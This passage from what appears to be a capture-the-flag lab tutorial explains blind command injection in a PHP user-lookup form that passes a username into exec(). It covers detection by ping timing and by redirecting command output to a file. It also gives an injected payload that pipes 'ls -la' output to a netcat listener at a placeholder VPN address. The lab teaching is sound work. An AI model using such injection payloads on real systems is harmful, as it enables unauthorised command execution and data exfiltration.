 >>In pseudocode, the above snippet is doing the following:

1. Checking if the parameter "username" is set
2. If it is, then the variable $username gets what was passed into the input field
3. The variable $command gets the system command "awk -F: '{print $1}' /etc/passwd | grep $username"; where $username is what was entered in step 2.  This command is printing out the list of users from /etc/passwd and then selecting the one that was entered.  Note that this is not executing anything yet.
4. Variable $returned_user then gets the result/return value of the function exec($command).

>>The rest of the code is fairly straightforward; set $result to a Bootstrap danger alert class if nothing was found in /etc/passwd and a success alert class if something was found.  Easy-peasy.

## Ways to Detect Blind Command Injection

>>As I mentioned above, blind command injection occurs when the response of the HTTP request is not returned to the DOM.  You can see in the above code that the response is never returned anywhere on the page.  The only thing that gets returned is an alert that says whether a user was found on the system or not.  For the purposes of this room, I made the alert tell you what was going on, but sometimes it won't be that easy.  So here are a few ways to tell whether you have blind command injection or not.

## Ping!

>>Yes, your friend ping can help you tell whether you have blind command injection or not.  Since the code is making a system call in some way, a ping will cause the page to continue loading until the command has completed.  So if you send a ping with 10 ICMP packets, the page should be loading for about 10 seconds.  If you send 20(!) packets, it should take about 20 seconds, and so on.

## Redirection of Output

>>Ping is usually enough to tell you whether you have blind command injection, but if you want to test further, you can attempt to redirect the output of a command to a file, then, using the browser, navigate to the page where the file is stored.  We all know the > Bash operator redirects output to a file or process so you could try redirecting the output of id, whoami, netstat, ip addr or other useful command to see if you can see the results.

## Bypassing the Blind Injection with Netcat

>>In the spirit of full disclosure, there is a way to bypass the blind injection with netcat.  You are able to pipe the output of a command to a nc listener.  You could do something like root; ls -la | nc {VPN_IP} {PORT} . This will send the output of ls -la to your netcat listener.

>>Thanks to hackadvisermx for showing me this!

>>To complete the questions below, navigate to http://MACHINE_IP.

----

# Task 4 Active Command Injection
----

